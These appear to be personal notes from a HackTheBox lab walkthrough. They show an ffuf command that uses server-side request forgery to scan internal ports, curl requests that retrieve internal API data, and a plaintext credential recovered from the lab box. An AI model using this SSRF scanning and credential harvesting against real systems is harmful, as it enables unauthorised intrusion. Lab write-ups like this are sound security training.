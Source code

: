 So it will be whenever we don't get that 16307.. string 

```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fr "16307..jpeg"
```

FFUF output shows **port 5000** will give us something unique. 

Checking it out with Burp
![[HackTheBox/Linux/attachments/Pasted image 20250509000142.png]]

Response 
![[HackTheBox/Linux/attachments/Pasted image 20250509000201.png]]

Navigate to this directory in the browser
![[HackTheBox/Linux/attachments/Pasted image 20250509000258.png]]
- which is giving us a file

Curling this file 
```
curl http://editorial.htb/static/uploads/2387327-43739-32897623
```
![[HackTheBox/Linux/attachments/Pasted image 20250509000357.png]]
- bunch of json data

View this data more easily with | jq .
```
curl http://editorial.htb/static/uploads/2387327-43739-32897623 | jq .
```
![[HackTheBox/Linux/attachments/Pasted image 20250509183748.png]]

Result - looks like these are api endpoints 
![[HackTheBox/Linux/attachments/Pasted image 20250509183910.png]]

Trying to request these endpoints in Burp leads to nothing for most of them. 
![[HackTheBox/Linux/attachments/Pasted image 20250509184035.png]]
Response
![[HackTheBox/Linux/attachments/Pasted image 20250509184053.png]]
One of the endpoints does give info! 
![[HackTheBox/Linux/attachments/Pasted image 20250509184144.png]]

Here is the Burp request for this 
![[HackTheBox/Linux/attachments/Pasted image 20250509184251.png]]

Response
![[HackTheBox/Linux/attachments/Pasted image 20250509184329.png]]
- Grab this UUID and use with curl to view the response 

```
curl http://editorial.htb/static/uploads/7e1ef09e-43739-32897623
```
We get a message with credentials
![[HackTheBox/Linux/attachments/Pasted image 20250509184501.png]]
- `dev:dev080217_devAPI!@`
